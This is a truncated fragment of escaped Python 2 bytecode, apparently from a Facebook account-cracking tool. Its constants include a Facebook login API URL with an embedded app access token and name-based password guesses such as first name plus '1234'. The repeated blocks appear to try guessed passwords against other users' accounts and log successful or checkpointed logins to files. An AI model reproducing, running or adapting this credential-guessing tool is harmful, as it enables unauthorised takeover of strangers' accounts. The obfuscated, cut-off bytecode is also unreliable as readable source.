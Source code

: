 \x00\x17}\x0c\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x0c\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\xb5\x04t\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x1c\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\x0c\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x0c\x00\x17\x83\x01\x00\x01n\x8d\x06d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00r7\x05d\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\x0c\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d\x1e\x00\x17|\x0c\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x0c\x00\x17\x83\x01\x00\x01n\x0b\x06|\x03\x00d\x04\x00\x19d!\x00\x17}\r\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\r\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\xec\x05t\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x1c\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\r\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\r\x00\x17\x83\x01\x00\x01nV\x05d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00rn\x06d\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\r\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d\x1e\x00\x17|\r\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\r\x00\x17\x83\x01\x00\x01n\xd4\x04d"\x00}\x0e\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x0e\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\x1b\x07t\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x1c\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\x0e\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x0e\x00\x17\x83\x01\x00\x01n\'\x04d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00r\x9d\x07d\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\x0e\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d\x1e\x00\x17|\x0e\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x0e\x00\x17\x83\x01\x00\x01n\xa5\x03|\x03\x00d\x04\x00\x19d#\x00\x17}\x0f\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x0f\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00rR\x08t\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x1c\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\x0f\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x0f\x00\x17\x83\x01\x00\x01n\xf0\x02d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00r\xd4\x08d\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\x0f\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d$\x00\x17|\x0f\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x0f\x00\x17\x83\x01\x00\x01nn\x02|\x03\x00d\x1f\x00\x19d%\x00\x17}\x10\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x10\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\x89\tt\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x1c\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\x10\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x10\x00\x17\x83\x01\x00\x01n\xb9\x01d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00r\x0b\nd\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\x10\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d$\x00\x17|\x10\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x10\x00\x17\x83\x01\x00\x01n7\x01|\x03\x00d\x04\x00\x19d%\x00\x17}\x11\x00t\t\x00j\n\x00d\x06\x00|\x01\x00\x17d\x07\x00\x17|\x11\x00\x17d\x08\x00\x17\x83\x01\x00}\x05\x00t\x06\x00j\x0b\x00|\x05\x00\x83\x01\x00}\x06\x00d\t\x00|\x06\x00k\x06\x00r\xc0\nt\x03\x00j\x04\x00d\x02\x00|\x01\x00\x17d\n\x00\x17|\x06\x00d\t\x00\x19\x17\x83\x01\x00}\x07\x00t\x06\x00j\x07\x00|\x07\x00j\x08\x00\x83\x01\x00}\x08\x00d\x0b\x00GHd\x0c\x00|\x03\x00d\r\x00\x19\x17GHd\x0e\x00|\x01\x00\x17GHd\x0f\x00|\x11\x00\x17d\x10\x00\x17GHt\x0c\x00j\r\x00|\x01\x00|\x11\x00\x17\x83\x01\x00\x01n\x82\x00d\x11\x00|\x06\x00d\x12\x00\x19k\x06\x00rB\x0bd\x13\x00GHd\x14\x00|\x03\x00d\r\x00\x19\x17GHd\x15\x00|\x01\x00\x17GHd\x16\x00|\x11\x00\x17d\x10\x00\x17GHt\x0e\x00d\x1d\x00d\x18\x00\x83\x02\x00}\t\x00|\t\x00j\x0f\x00d\x19\x00|\x01\x00\x17d$\x00\x17|\x11\x00\x17d\x10\x00\x17\x83\x01\x00\x01|\t\x00j\x10\x00\x83\x00\x00\x01t\x11\x00j\r\x00|\x01\x00|\x11\x00\x17\x83\x01\x00\x01n\x00\x00Wn\x07\x00\x01\x01\x01n\x01\x00Xd\x00\x00S(&\x00\x00\x00Nt\x06\x00\x00\x00Grabers\x1b\x00\x00\x00https://graph.facebook.com/s\x0f\x00\x00\x00/?access_token=t\n\x00\x00\x00first_namet\x04\x00\x00\x001234s\x91\x00\x00\x00https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=s\x17\x00\x00\x00&locale=en_US&password=sH\x00\x00\x00&sdk=ios&generate_session_co